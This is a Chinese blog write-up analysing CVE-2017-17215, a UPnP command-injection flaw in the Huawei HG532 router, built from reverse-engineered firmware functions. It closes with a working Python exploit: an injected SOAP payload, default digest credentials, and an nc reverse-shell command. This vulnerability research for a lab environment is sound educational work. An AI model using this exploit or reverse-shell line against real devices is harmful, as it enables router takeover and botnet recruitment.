





# 漏洞分析：CVE-2017-17215 - Riv4ille - 博客园

> 原文：[`www.cnblogs.com/L0g4n-blog/p/15613816.html`](https://www.cnblogs.com/L0g4n-blog/p/15613816.html)

# 漏洞分析：CVE-2017-17215

　　华为 HG532 路由器的命令注入漏洞，存在于 UPnP 模块中。

## 漏洞分析

### 什么是 UPnP？

　　搭建好环境（使用 IoT-vulhub 的 docker 环境），启动环境，查看一下系统启动的服务和端口监听情况。



 　　漏洞点存在于 UPnP 模块中,关于 upnp 协议，其实现的功能大致如下：

　　1.NAT 网关设备拥有一个公网 IP 地址（比如 10.59.116.19），内网中的主机（比如 192.168.1.101）想要与外界通信的话，NAT 网关设备可以为其做一个端口映射（比如：180.59.116.19 :80 —> 192.168.1.101 :80），这样，外部的主机发往 NAT 网关的数据包都会被转发给内网的该主机，从而实现了内网中的主机与外部主机的通信；

　　2.当内网的服务，需要被外网访问的时候，就需要做一个端口映射，把内网主机的端口映射到 NAT 网关设备的一个端口上去，这样访问网关设备的端口时候，实际上就是访问了内网主机的服务。但是当内网有多台主机需要向外提供服务的时候，就需要手动配置 NAT 网关设备的映射端口，确保这些内网服务不会映射到 NAT 网关设备的同一个端口上去，否则就会造成端口的冲突，这给用户造成了很多麻烦；

3.UPnP 技术标准的出现就是为了解决这个问题，只要 NAT 设备（路由器）支持 UPnP，并开启。那么，当我们的主机（或主机上的应用程序）向 NAT 设备发出端口映射请求的时候，NAT 设备就可以自动为主机分配端口并进行端口映射。这样，我们的主机就能够像公网主机一样被网络中任何主机访问了。 

 　　总的来说，upnp 提供了一种外网到内网主机的访问机制，如果网关设备的 upnp 模块存在问题,同时防火墙配置不当的话，从 WAN 口去攻击路由器等等网关设备就会比较容易。HG532 这款设备，使用 upnp 来进行固件更新，在固件更新的过程中存在命令注入漏洞，最早是 checkpoint 发现被 Mirai 的变种 OKIRU/SATORI 利用来构建僵尸网络。

### 漏洞函数，你在哪里被调用？

　　用 IDA 打开/bin/upnp 文件，通过搜索 system 等命令执行函数的交叉引用，查看存在的命令注入点。由于大部分命令执行函数的参数是硬编码过的，所以找到这个漏洞点并不困难，简单的搜索之后，就可以看到一个 snprintf 函数在传递参数的过程中，对参数没有做任何校验，然后 snprintf 读入的格式化字符串参数的地址被传递到了 system 函数中，system 调用 upg 来进行固件更新，如果 param1 和 param2 两个参数可控的话，就可以在 system 中执行攻击者的命令。


　　现在需要看一下 ATP_XML_GetChildNodeByName 函数，由于固件没有剥离符号表，所以通过函数名大致可以看出函数做了什么：

```
int __fastcall ATP_XML_GetChildNodeByName(int a1, int NodeName, int *a3, _DWORD *param)
{ int flag; // $s1
  int i; // $v0
  int v9; // $s0
  int NodeValue; // [sp+20h] [-8h] BYREF
  int ret_NodeName; // [sp+24h] [-4h] BYREF
 flag = 0x40090000; if ( NodeName )
  { for ( i = ((int (__fastcall *)(int))TSP_XML_GetNodeFirstChild)(a1); ; i = TSP_XML_GetNodeNextSibling(v9) )
    { // 遍历 xml 节点
      v9 = i; if ( !i )
      { if ( param ) *param = 0; return 0x40090004;
      }
      flag = TSP_XML_GetNodeValue(i, 0, 0, &ret_NodeName, &NodeValue);// 获取 xml 节点的值
      if ( flag )
      { if ( param ) *param = 0; return flag;
      } if ( ret_NodeName && !strcmp(ret_NodeName, NodeName) ) break;
    } if ( a3 ) *a3 = v9; if ( param )
    { if ( NodeValue )
        ((void (*)(void))sub_408540)(); *param = NodeValue;
    }
  } return flag;
}
```

　　大胆猜测一下：通过遍历 xml 的节点，找到标签名和第二个参数一样的节点，然后把 xml 节点的值写入到第四个参数的地址处。这里比较坑的一点是，我找不到漏洞函数的交叉引用，也不知道怎么控制 snprintf 的参数。

　　这里先在 squashfs-root 目录下找找"NewDownloadURL"和"NewStatusURL"这两个字符串：


 　　

 　　在 upnp 中查找 DevUpg.xml 字符串的交叉引用：


 　　查看 ATP_UPNP_RegDeviceAndService 函数，发现这个函数对 ATP_UPnP_RegDevice 函数和 ATP_UPnP_RegService 函数有大量的调用，猜测这个函数可能主要用于开启外网对内访问的服务。



 　　往下找一找，可以看到一个 ATP_UPNP_RegAction 函数，这个函数有两个参数：


 　　这个参数之前就作为 ATP_UPnp_RegDevice 的最后一个参数被传递进去过：


 　　我们之前说，ATP_UPnP_RegService 这个函数可能是开启 UPnP 的服务，那 ATP_UPNP_RegAction,很有可能就是要对开启的服务做一些操作，跟进看一看。  

```
int __fastcall ATP_UPNP_RegAction(int service_id, int idx)
{ int result; // $v0
  int *v4; // $s0
  char *funcname; // $s2
  int v6; // $s1

  if ( !service_id ) return 0x40090000;
  result = 0x40090000; if ( *(_DWORD *)(service_id + 48) )
  {
    v4 = *(int **)(service_id + 36); if ( v4 )
    {
      funcname = **g_astActionArray[4 *** **idx]**; while ( 1 )
      { if ( (v4[1] & 0x40000000) != 0 )
        {
          v6 = *v4; if ( !strcmp(*v4, funcname) ) break;
        }
        v4 = (int *)v4[4];
        result = 0x40090000; if ( !v4 ) return result;
      }
      ATP_UPNP_Free(v6);
      v4[1] &= 0xBFFFFFFF; *v4 = idx;
      result = 0;
    }
  } return result;
}
```

　　这里的重点，在 g_astActionArray 这个全局变量，这个全局变量之前没有被识别出来，在 IDA 里面修改识别一下，发现别有洞天：


 　　这是一个虚表，aUpgrade 和 DeviceUpgrade(这个就是漏洞函数)分别是下标为 0 和 1 的函数名。这样看来，之前找不到对应漏洞函数的交叉引用也就有理可循了。

　　再来看看这个虚表对应的交叉引用，看除了 ATP_UPNP_RegAction 这个函数之外，它还在哪里被调用了：


　　UPnPGetActionByName 会返回 g_astActionArray 中的函数指针：


 　　然后这个函数指针随后会被调用：


 　　做到这一步，我们现在可以再梳理一下逆向的工作了。

　　我们之前首先通过搜索 system 函数交叉引用的办法，找到了漏洞点，但是没有找到漏洞函数的交叉引用，这是因为函数是通过虚表的方式，调用了函数指针。

　　然后我们通过在固件中查找关键字符串的方式，确定了 UPnP 协议要解析的一个关键的 xml 文件：DevUpg.xml。我们又回到/bin/upnp 中，查找这个文件名字符串的交叉引用，通过分析 ATP_UPnp_RegDevice 和 ATP_UPNP_RegAction 这两个函数，在 IDA 里面找到并且正确识别了这个虚表。

　　最后再通过查找虚函数其他的交叉引用，找到了函数指针被调用的地方，还原了整个漏洞函数执行的流程。

　　那么现在还要关注哪些问题？



　　 我们现在还不知道，控制固件升级的消息格式，只有清楚了消息格式，我们才能结合之前找到的注入点注入命令。

　　通过 UPnP 实现固件更新的过程，是通过一个 Web 接口来实现的，我们还要把这个接口给找出来。完成这两步，感觉这个漏洞挖掘的过程就被完整地还原出来了，开搞。

### 寻找 Web 接口

　　在逆向的过程中，有这样一段代码：


 　　http_request 是我重命名的一个变量，这个变量肯定是一个结构体指针，但是暂时没有办法还原这个结构体。UpnpGetServiceByUrl 这个函数名也引起了我的注意（url 这个变量也是我重命名的一个变量，根据函数名猜的），跟进到这个函数中看一看：



 　　这样一看，这个函数实现的功能其实也能猜个十之八九，g_pstUpnpGvarHead 这个全局变量最开始是在 ATP_UPNP_Init 函数中被赋值;


 　　还有一个函数会以 xml 格式返回客户端错误：


 

　　到这一步，我觉得继续静态分析的话，收获也不大了，登录到路由器后台找一找 api，看看能不能抓包分析一下流量是唯一的出路。  

 

 　　后台确实有固件升级的功能，但是在 docker 中好像不能用，我把 tcpdump 传到靶机中没有抓取到 37215 端口的流量，看了一下 check point 的漏洞公告和分析，尝试构造 exp。  

## 漏洞利用


 　　checkpoint 文中提到是通过蜜罐捕获到了流量。

　　通过 UPnP 协议控制固件升级的消息格式如上图所示，其中 NewStatusURL 和 NewDownloadURL 标签中的内容就是我们可控的命令注入点。通过 nc 反弹 shell 失败，wget 传递 msf 的反弹 shell 还是稳......

　　exp 中需要进行 http 身份验证，否则就会报 401 错误。

```
import requests from threading import Thread from requests.auth import HTTPDigestAuth

cmd = "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.2.1 3456 > /tmp/f"
#cmd = "mkdir /tmp/poc"
payload = '''<?xml version=\"1.0\" ?>\n''' payload += '''<s:Envelope xmlns:s=\"http://schemas.xmlsoap.org/soap/envelope/\" s:encodingStyle=\"http://schemas.xmlsoap.org/soap/encoding/\">\n''' payload += '''<s:Body><u:Upgrade xmlns:u=\"urn:schemas-upnp-org:service:WANPPPConnection:1\">\n''' payload += '''<NewStatusURL>;$(./tools/msf);</NewStatusURL>\n''' payload += '''<NewDownloadURL>$(echo HUAWEIUPNP)</NewDownloadURL>\n</u:Upgrade>\n''' payload += '''</s:Body>\n''' payload += '''</s:Envelope>''' url = "http://192.168.2.2:37215/ctrlt/DeviceUpgrade_1"
# r = requests.post(url,data = payload)
 r = requests.post(url,auth = HTTPDigestAuth('dslf-config', 'admin') ,data = payload) print(r.status_code)
```


## 总结

　　关于这个漏洞，感觉网上一些文章都是搭了环境，然后直接找一次命令注入点，根据漏洞公告给的信息打一次 exp，少了一些细节。我在分析的过程中，加入了自己学习和研究的过程中的一些思路和想法，在这个过程中，我对于 UPnP 协议也有了一些了解，加深了对命令注入漏洞数据流的理解。

## 参考链接：

https://zhuanlan.zhihu.com/p/40407669

https://nosec.org/home/detail/4871.html

https://research.checkpoint.com/2017/good-zero-day-skiddie/